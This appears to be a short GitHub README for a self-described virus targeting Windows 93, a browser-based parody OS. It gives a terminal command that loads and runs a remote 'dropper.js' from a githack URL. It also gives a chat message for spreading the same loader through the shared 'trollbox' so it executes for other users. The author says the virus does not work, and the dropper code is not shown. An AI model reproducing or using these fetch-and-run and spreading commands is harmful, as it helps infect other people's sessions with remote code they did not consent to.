 # Basic93Virus
Very basic virus for windows 93    

## How to run

To load, use terminal command:    
`js $loader(["https://raw.githack.com/OutRite/Basic93Virus/main/dropper.js", $noop])`    
Spread via trollbox as message:    
`/exe js $loader(["https://raw.githack.com/OutRite/Basic93Virus/main/dropper.js", $noop])`

## Does it work?
no

## Why does it sometimes take long to update
its just fucking githack
